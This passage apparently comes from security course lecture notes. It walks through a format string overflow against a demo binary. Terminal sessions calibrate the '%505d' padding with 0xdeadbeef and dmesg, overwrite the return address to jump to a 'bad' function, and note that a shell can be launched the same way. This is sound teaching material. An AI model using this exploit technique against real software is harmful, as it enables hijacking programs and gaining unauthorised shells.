 To do this, we need to do the right number of extended format to hit the
return address, We can do this by first using 0xdeadbeef and checking
the `dmesg` output:

``` {.example}
user@si485H-base:demo$ ./format_overflow "%500d$(printf '\xef\xbe\xad\xde')" > /dev/null ; dmesg | tail -1
Segmentation fault (core dumped)
[181507.663004] format_overflow[16817]: segfault at deadbe ip 08048504 sp bffff6b0 error 4 in format_overflow[8048000+1000]
user@si485H-base:demo$ ./format_overflow "%501d$(printf '\xef\xbe\xad\xde')" > /dev/null ; dmesg | tail -1
Illegal instruction (core dumped)
[181507.663004] format_overflow[16817]: segfault at deadbe ip 08048504 sp bffff6b0 error 4 in format_overflow[8048000+1000]
user@si485H-base:demo$ ./format_overflow "%502d$(printf '\xef\xbe\xad\xde')" > /dev/null ; dmesg | tail -1
Segmentation fault (core dumped)
[181516.038682] format_overflow[16827]: segfault at 80400de ip 080400de sp bffff6b0 error 14 in format_overflow[8048000+1000]
user@si485H-base:demo$ ./format_overflow "%503d$(printf '\xef\xbe\xad\xde')" > /dev/null ; dmesg | tail -1
Segmentation fault (core dumped)
[181519.371290] format_overflow[16832]: segfault at 800dead ip 0800dead sp bffff6b0 error 14 in format_overflow[8048000+1000]
user@si485H-base:demo$ ./format_overflow "%504d$(printf '\xef\xbe\xad\xde')" > /dev/null ; dmesg | tail -1
Segmentation fault (core dumped)
[181522.598268] format_overflow[16837]: segfault at deadbe ip 00deadbe sp bffff6b0 error 14 in format_overflow[8048000+1000]
user@si485H-base:demo$ ./format_overflow "%505d$(printf '\xef\xbe\xad\xde')" > /dev/null ; dmesg | tail -1
Segmentation fault (core dumped)
[181526.367333] format_overflow[16842]: segfault at deadbeef ip deadbeef sp bffff6b0 error 15
```

So if we use a 505 byte length %d format, the next 4-bytes we write is
the return address. And adding that, we get what we want:

``` {.example}
user@si485H-base:demo$ objdump -d format_overflow | grep bad
08048481 <bad>:
user@si485H-base:demo$ ./format_overflow "%505d$(printf '\x81\x84\x04\x08')" 
outbuf: ERR Wrong command:                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               -1073743725??
bad
Segmentation fault (core dumped)
```

We can also get this to execute a shell in the normal way (note how I
adjusted the jump point using dmesg).
